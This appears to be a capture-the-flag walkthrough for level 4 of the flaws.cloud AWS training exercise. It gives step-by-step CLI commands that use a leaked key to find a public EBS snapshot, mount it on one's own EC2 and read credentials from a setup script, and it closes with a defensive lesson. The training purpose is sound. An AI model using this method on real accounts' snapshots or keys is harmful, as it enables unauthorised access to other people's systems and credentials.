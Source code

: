 # level 4

For the next level, you need to get access to the web page running on an EC2 at 4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud

It'll be useful to know that a snapshot was made of that EC2 shortly after nginx was setup on it. 

**hint 1:**
*You can snapshot the disk volume of an EC2 as a backup. In this case, the snapshot was made public, but you'll need to find it.*

To do this, first we need the account ID, which we can get using the AWS key from the previous level:

`aws --profile flaws sts get-caller-identity`

Using that command also tells you the name of the account, which in this case is named "backup". The backups this account makes are snapshots of EC2s. Next, discover the snapshot:

`aws --profile flaws  ec2 describe-snapshots --owner-id 975426262029`

We specify the owner-id just to filter the output. For fun, run that command without the owner-id and notice all the snapshots that are publicy readable. By default snapshots are private, and you can transfer them between accounts securely by specifiying the account ID of the other account, but a number of people just make them public and forget about them it seems. 

Now that you know the snapshot ID, you're going to want to mount it. You'll need to do this in your own AWS account, which you can get for free.

First, create a volume using the snapshot:

`aws --profile YOUR_ACCOUNT ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id  snap-0b49342abd1bdcb89`

Now in the AWS console in your browser you can create an EC2 in the `us-west-2` region, and in the storage options choose the volume you just created.

SSH in with something like:

`ssh -i YOUR_KEY.pem  username@ec2address`

We'll need to mount this extra volume by running:

    lsblk

    # Returns:
    #  NAME    MAJ:MIN RM SIZE RO TYPE MOUNTPOINT
    #  xvda    202:0    0   8G  0 disk
    #  └─xvda1 202:1    0   8G  0 part /
    #  xvdb    202:16   0   8G  0 disk
    #  └─xvdb1 202:17   0   8G  0 part

    sudo file -s /dev/xvdb1

    # Returns:
    #  /dev/xvdb1: Linux rev 1.0 ext4 filesystem data, UUID=5a2075d0-d095-4511-bef9-802fd8a7610e, volume name "cloudimg-rootfs" (extents) (large files) (huge files)

    # Next we mount it

    sudo mount /dev/xvdb1 /mnt

Now you can dig around in that snapshot navigating to `/mnt/home/ubuntu`

    ls
    meta-data  setupNginx.sh

`cat` the setup file and you will find the username and password.

## Lesson learned
AWS allows you to make snapshots of EC2's and databases (RDS). The main purpose for that is to make backups, but people sometimes use snapshots to get access back to their own EC2's when they forget the passwords. This also allows attackers to get access to things. Snapshots are normally restricted to your own account, so a possible attack would be an attacker getting access to an AWS key that allows them to start/stop and do other things with EC2's and then uses that to snapshot an EC2 and spin up an EC2 with that volume in your environment to get access to it. Like all backups, you need to be cautious about protecting them. 